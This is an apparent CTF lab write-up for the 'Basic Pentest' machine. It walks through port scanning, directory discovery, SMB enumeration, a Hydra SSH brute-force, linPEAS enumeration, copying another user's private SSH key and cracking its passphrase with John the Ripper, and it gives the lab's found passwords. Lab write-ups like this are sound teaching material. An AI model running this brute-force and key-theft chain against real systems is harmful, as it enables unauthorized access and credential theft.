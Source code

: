# Basic Pentest
Web App Testing and Privilege Escalation
---
## Nmap
Find open services on target IP
- ```nmap -sC -sV [target IP]```

![image](https://user-images.githubusercontent.com/84083756/226158417-5d0dc6cd-5463-4d84-b75f-eee2747e6498.png)

- Open ports of interest:
  - port 22/tcp ssh
  - port 80/tcp http

Take a closer look at port 80
- Search the IP address and port 80 in the browser

![image](https://user-images.githubusercontent.com/84083756/226158626-ae85350d-4338-4fae-815d-9f393b2dc04b.png)

- View the page source

![image](https://user-images.githubusercontent.com/84083756/226158728-01841d49-73cc-49ad-bba2-0283456055f9.png)
---
## Gobuster
Look for directories using Dirbuster/Gobuster
- ```gobuster dir -w /usr/shar/wordslist/dirbuster/directory=list-2.3-medium.txt -u http://[target IP]```

![image](https://user-images.githubusercontent.com/84083756/226159207-7f0a174c-f9f2-4579-ae29-0e11a9b61ebc.png)

- Check out the /development directory that was found

![image](https://user-images.githubusercontent.com/84083756/226159435-cff5dd8c-f5cb-4d30-967f-42a1603cd34c.png)

- Click through the directories, look for information and also view page source for each page.
- Notice hints about a version number, directory and a weak password in the snippets below
![image](https://user-images.githubusercontent.com/84083756/226335662-3ba157a4-53e0-452b-8bdb-52eb476bcd60.png)
![image](https://user-images.githubusercontent.com/84083756/226335762-7d41797b-9de3-4ffe-9e02-001b0ada4f33.png)
---
## Enum4linux
- Lets try brute forcing SMB
- `enum4linux -a [ip address] | tee enum4linux.log`
- Searching the results we can see two users: Kay and Jan
![image](https://user-images.githubusercontent.com/84083756/226337156-363c828c-9a4f-4a8f-b95d-c34460144aca.png)
---
## Hydra
- Now that we have a user name and we know SSH port 22 is open, let's brute force it using Hydra
- `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://[ip address]`
- We can see Hydra has found a password match for jan
![image](https://user-images.githubusercontent.com/84083756/226338571-99ea5bcf-1bff-41e6-a476-30b4d279e24a.png)
---
## LinPEAS
Use LinPEAS to find vectors for privilege escalation
- SSH into the machine using `ssh jan@[ip address]` using the password `armando` found by Hydra
- Let's enumerate using linPEAS
- First we need to copy the linPEAS executable to jan's machine
- On our own machine eexcute:
  * `scp /opt/PEAS/linPEAS/linPEAS.sh jan@[IP address]:/dev/smh`
- From jan's machine perform `cd /dev/smh/`
- Change the linPEAS file to executable using `chmod +x linPEAS.sh`
- Run linPEAS saving the output to a log file
  - `./linPEAS.sh | tee linlog.txt`
- Here we can see highlighted in red that user kay has a private ssh key stored

![image](https://user-images.githubusercontent.com/84083756/226342733-708242e0-77c0-4f68-ab2f-c1188aee3d05.png)

- Move to kay's home folder and copy the SSH key
  - `cd /home/kay/.ssh`
  - `cat` and copy the id_rsa file contents
  - paste to a new file `kay_rsa_id` on our own machine and change to read only using `chmod 600 kay_rsa_id`
---
## John the Ripper
- Attempting to ssh using kay's private key ```ssh -i kay_rsa_id kay@[IP address]` we can see it is password protected
- Let's use ssh2john to prepare a file for JohnTheRipper to work with
  - `/opt/john/ssh2john.py kay_rsa_id > forjohn.txt`
- Lets run JohnTheRipper 
  - `/opt/john/john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt`
- Password found!

![image](https://user-images.githubusercontent.com/84083756/226346423-accff2c6-2244-4856-a0d9-9fecd194d91c.png)

- Lets ssh to kays machine
  - `ssh -i kay_rsa_id kay@[IP address]` 
  - input password `beeswax`
- Now, use `cat pass.bak` to view the passwrod we are searching for!

